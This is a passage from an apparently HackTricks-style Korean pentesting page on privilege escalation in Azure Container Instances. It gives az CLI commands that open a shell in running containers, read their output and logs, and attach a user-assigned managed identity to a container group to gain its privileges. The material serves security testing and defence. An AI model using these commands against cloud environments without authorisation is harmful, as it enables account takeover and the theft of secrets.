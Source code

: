 # Az - Azure Container Instances, Apps & Jobs Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Instances, Apps & Jobs

자세한 정보는 다음을 확인하세요:

{{#ref}}
../az-services/az-container-instances-apps-jobs.md
{{#endref}}

## ACI

### `Microsoft.ContainerInstance/containerGroups/read`, `Microsoft.ContainerInstance/containerGroups/containers/exec/action`

이 권한은 사용자가 **실행 중인 컨테이너**에서 **명령을 실행**할 수 있도록 허용합니다. 이는 컨테이너에 관리되는 ID가 연결되어 있는 경우 **권한 상승**에 사용될 수 있습니다. 물론, 컨테이너 내부에 저장된 소스 코드 및 기타 민감한 정보에 접근하는 것도 가능합니다.

쉘을 얻는 것은 다음과 같이 간단합니다:
```bash
az container exec --name <container-name> --resource-group <res-group>  --exec-command '/bin/sh'
```
컨테이너의 **출력을 읽는** 것도 가능합니다:
```bash
az container attach --name <container-name> --resource-group <res-group>
```
로그를 가져오려면:
```bash
az container logs --name <container-name> --resource-group <res-group>
```
### `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

이 권한은 **사용자 관리형 ID**를 컨테이너 그룹에 연결할 수 있게 해줍니다. 이는 컨테이너에서 권한을 상승시키는 데 매우 유용합니다.

사용자 관리형 ID를 컨테이너 그룹에 연결하려면:
```bash
az rest \
--method PATCH \
--url "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerInstance/containerGroups/<container-name>?api-version=2021-09-01" \
--body '{
"identity": {
"type": "UserAssigned",
"userAssignedIdentities": {
"/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>": {}
}
}
}' \
--headers "Content-Type=application/json"
```
### `Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`
